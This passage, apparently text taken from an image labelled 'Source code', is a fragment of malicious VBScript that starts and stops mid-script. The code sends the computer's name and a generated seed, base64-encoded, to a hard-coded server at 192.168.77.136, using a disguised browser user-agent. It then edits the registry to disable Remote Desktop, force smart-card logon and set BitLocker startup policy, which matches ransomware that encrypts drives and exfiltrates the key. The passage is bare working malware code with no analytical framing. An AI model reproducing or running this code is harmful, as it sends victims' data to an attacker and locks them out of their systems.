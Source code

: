 ```vbscript
    randomNum = Int(Len(characters) * Rnd(2))
    randomChar = Mid(characters, randomNum + 1, 1)    
    strRandom = strRandom & randomChar
Next

Set httpRequest = CreateObject("WinHttp.WinHttpRequest.5.1")
httpRequest.Open "POST", "http://192.168.77.136/updatelog", False
httpRequest.SetRequestHeader "Content-Type", "application/x-www-form-urlencoded"
httpRequest.SetRequestHeader "accept-language", "fr"
httpRequest.SetRequestHeader "user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0"
httpRequest.Option(4) = 13056
httpRequest.Option(6) = true

computerName = CreateObject("WScript.Network").ComputerName
postDataPlaintext = computerName & vbTab & seed
postDataPlaintext2 = computerName & vbTab & result

Set oXML = CreateObject("Msxml2.DOMDocument.6.0")
Set oNode = oXML.CreateElement("base64")
oNode.dataType = "bin.base64"

If InStr(1, caption, "2008", vbTextCompare) > 0 Or InStr(1, caption, "7", vbTextCompare) > 0 Then
    oNode.nodeTypedValue = Stream_StringToBinary(postDataPlaintext)
	postData = "upgrade=" & oNode.Text
Else
    oNode.nodeTypedValue = Stream_StringToBinary(postDataPlaintext)
	postData = "upgrade=" & oNode.Text
End If


retryCount = 3

Do While retryCount < 5
On Error Resume Next
	httpRequest.SetTimeouts 15000, 15000, 15000, 15000
    httpRequest.Send postData
	If httpRequest.status = 520 Then
		If InStr(1, httpRequest.getAllResponseHeaders, "cloudflare", vbTextCompare) > 0 Then
		Exit Do
		Else
		WScript.Sleep(3000)
		End If
	End If
retryCount = retryCount + 1
Loop


Set objWMIService = GetObject("winmgmts:\\.\root\CIMV2")
	Dim matchedDrives
	matchedDrives = "C:,E:"
	If Len(matchedDrives) > 0 Then
		matchedDrives = Left(matchedDrives, Len(matchedDrives) - 1)
		drives = Split(matchedDrives, ",")
		For i = 0 To UBound(drives)
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\System\CurrentControlSet\Control\Terminal Server"" /v fDenyTSConnections /t REG_DWORD /d 1 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System"" /v scforceoption /t REG_DWORD /d 1 /f")).stdout.readall) > 0 Then: End If
			If Len((CreateObject("WScript.Shell").Exec("reg add ""HKLM\SOFTWARE\Policies\Microsoft\FVE"" /v UseAdvancedStartup /t REG_DWORD /d 1 /f")).stdout.readall) > 0 Then: End If
```